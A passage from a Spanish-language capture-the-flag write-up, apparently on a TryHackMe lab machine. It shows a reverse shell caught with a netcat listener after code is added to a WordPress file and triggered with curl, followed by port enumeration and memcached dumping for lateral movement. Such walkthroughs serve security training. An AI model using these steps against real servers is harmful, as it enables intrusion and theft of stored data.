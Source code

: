 Agregamos nuestro codigo y le damos a update file.

Para generar un error en la web simplemente tenemos que acceder a un recurso que no exista.

```bash
❯ curl -s "http://site.wekor.thm/wordpress/?p=100312312"
```
Y por debajo nos llega la conexion
```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.47.45] from (UNKNOWN) [10.10.186.221] 58878
bash: cannot set terminal process group (1086): Inappropriate ioctl for device
bash: no job control in this shell
www-data@osboxes:/var/www/html/site.wekor.thm/wordpress$ whoami
whoami
www-data
www-data@osboxes:/var/www/html/site.wekor.thm/wordpress$ 
```
## Movimiento lateral
Miremos los puertos que estan abiertos en la maquina
```bash
www-data@osboxes:/var/www/html/site.wekor.thm/wordpress$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3010          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN     
tcp        0      2 10.10.186.221:58878     10.8.47.45:4444         ESTABLISHED
tcp        0      1 10.10.186.221:49704     91.189.91.48:80         SYN_SENT   
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 ::1:631                 :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 10.10.186.221:80        10.8.47.45:47850        ESTABLISHED
www-data@osboxes:/var/www/html/site.wekor.thm/wordpress$
```
Hay un puerto que me llama mucho la atencion el 11211 este puerto es de memcached "memcached es almacén de datos en la memoria", conectemonos a memcached, aver que informacion podemos extraer.

```bash
www-data@osboxes:/var/www/html/site.wekor.thm/wordpress$ telnet 127.0.0.1 11211
```
Veamos las estadisticas generales
```bash
stats items
STAT items:1:number 5
STAT items:1:age 2506
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 0
STAT items:1:lrutail_reflocked 0
END
```
Veamos una lista detallada de los items almacenados.
```bash
stats cachedump 1 20
ITEM id [4 b; 1680736314 s]
```